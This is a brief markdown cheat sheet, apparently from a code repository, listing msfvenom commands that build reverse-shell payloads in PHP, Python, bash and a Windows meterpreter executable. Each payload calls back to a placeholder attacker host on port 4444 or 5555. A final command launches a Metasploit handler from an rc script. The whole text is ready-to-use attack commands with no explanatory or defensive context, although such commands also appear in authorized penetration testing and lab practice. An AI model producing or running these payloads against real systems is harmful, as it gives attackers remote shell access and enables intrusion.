 # msfvenom

## Reverse TCP

msfvenom -p php/meterpreter_reverse_tcp LHOST=xx.xx.xx.xx LPORT=4444 -f raw > shell.php\
msfvenom -p cmd/unix/reverse_python LHOST=xx.xx.xx.xx LPORT=4444 -f raw > shell.py\
msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx.xx.xx LPORT=4444 -f raw > shell.sh\
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LPORT=5555 LHOST=xxx.xxx.xxx.xxx -f exe -e generic/none -o ./2.exe

## Run msf rc script.

msfconsole -r multihandler.rc
